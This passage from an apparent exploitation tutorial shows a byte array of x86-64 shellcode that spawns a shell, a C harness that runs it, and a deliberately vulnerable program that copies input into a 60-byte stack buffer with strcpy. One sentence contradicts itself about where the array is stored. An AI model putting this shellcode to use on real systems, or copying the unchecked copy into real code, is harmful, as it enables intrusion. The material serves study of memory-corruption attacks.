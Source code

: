 Compiling it with the option to make the stack executable should now result in an executable, that runs the shellcode from within an executable, by having pushed the shellcode onto the stack and pointing the instruction pointer to it.

## Shellcode in the Data Segment

If we modify our test program slightly, namely if we put the shellcode variable `shellcode` outside of the scope of main, the shellcode will be stored on the stack, but in the data segment:

```
#include <stdlib.h>

    char shellcode[] = "\x48\x31\xC0\x50\x48\xBB\x2F\x2F"
                   "\x62\x69\x6E\x2F\x73\x68\x53\xB0"
                   "\x3B\x48\x31\xd2\x48\x89\xE7\x0F"
                   "\x05\x90\x90\x90\x90\x90\x90\x90";

int main()
{
    int (*func)();
    func = (int (*)()) shellcode;
    (*func)();
}
```

Compiling this code leads again to a `segmenation fault`. This time the problem cannot be solved by making the stack executable. The solution of the problem is left for the reader as an exercise.

A possible solution is given in the files `shellcode2.asm` and `testsc2.c`. Note that the solutions are "fragile" in the sense that they might have to be adjusted when using a new version of the C compiler.

## Exploiting Vulnerable Code

### A Vulnerable Executable

Given that we have a working shellcode, we will now try it out on a sample of vulnerable code. For this purpose we use the following snippet of C code:

```
#include<string.h>

void copy_string(char *input)
{
    char str[60];

    strcpy(str, input);
}

int main(int argc, char *argv[])
{
    copy_string(argv[1]);
    return 0;
}
```
